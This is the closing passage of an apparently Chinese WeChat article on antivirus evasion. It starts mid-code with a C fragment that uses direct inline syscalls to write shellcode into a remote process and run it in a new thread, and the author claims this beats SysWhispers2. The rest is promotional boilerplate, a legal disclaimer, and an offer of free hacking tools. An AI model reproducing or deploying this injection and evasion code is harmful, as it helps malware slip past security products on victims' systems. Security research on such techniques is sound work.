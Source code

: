       INLINE_SYSCALL(NtWriteVirtualMemory)(hProcess, baseAddress, &shellcode, sizeof(shellcode), NULL);    HANDLE hThread;  INLINE_SYSCALL(NtCreateThreadEx)(&hThread, GENERIC_EXECUTE, NULL, hProcess, baseAddress, NULL, FALSE, 0, 0, 0, NULL);  INLINE_SYSCALL(NtClose)(hProcess);  INLINE_SYSCALL(NtClose)(hThread);  return 0;}

这种使用比SysWhispers2更为方便，效果更好。

## 总结

免杀是多种规避的技术总和！

  

![](https://gitee.com/fuli009/images/raw/master/public/20220923135702.png)

END

![](https://gitee.com/fuli009/images/raw/master/public/20220923135702.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20220923135703.png)

  

 **看完记得点赞，关注哟，爱您！**

  
 **请严格遵守网络安全法相关条例！此分享主要用于学习，切勿走上违法犯罪的不归路，一切后果自付！**

  

  
关注此公众号，回复"Gamma"关键字免费领取一套网络安全视频以及相关书籍，公众号内还有收集的常用工具！  
**在看你就赞赞我！**![](https://gitee.com/fuli009/images/raw/master/public/20220923135704.png)![]()![](https://gitee.com/fuli009/images/raw/master/public/20220923135705.png)![](https://gitee.com/fuli009/images/raw/master/public/20220923135706.png)
扫码关注我们![](https://gitee.com/fuli009/images/raw/master/public/20220923135706.png)

  

扫码领hacker资料，常用工具，以及各种福利

  

![]()

转载是一种动力 分享是一种美德

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

